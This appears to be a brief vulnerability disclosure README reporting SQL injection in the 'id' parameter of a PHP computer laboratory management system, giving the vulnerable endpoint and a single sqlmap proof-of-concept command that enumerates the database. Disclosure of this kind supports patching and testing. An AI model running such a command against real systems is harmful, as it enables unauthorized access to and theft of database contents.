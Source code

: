 
# Computer-Laboratory-Management-System-SQLi-3-PoC
+ Exploit Author: Emirhan Mutlu
# Vendor Homepage
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Software Link
+ https://www.sourcecodester.com/php/17268/computer-laboratory-management-system-using-php-and-mysql.html
# Overview
+ A SQL Injection vulnerability in Computer Laboratory Management System allows attackers to execute arbitrary SQL commands on the database server and exfiltrate sensitive data.
# Vulnerability Details
+ Vulnerable Endpoint: /php-lms/admin/item/view_item.php?id=1
+ Parameter: id
# Description
+ The lack of proper input validation and sanitization on the 'id' parameter allows an attacker to craft SQL injection queries and gaining unauthorized access to the database.

# Proof of Concept (PoC) : 
+ `sqlmap -u "http://localhost/php-lms/admin/item/view_item.php?id=1" --batch --level 5 --risk 3 --dbms=mysql --current-db --threads 10`

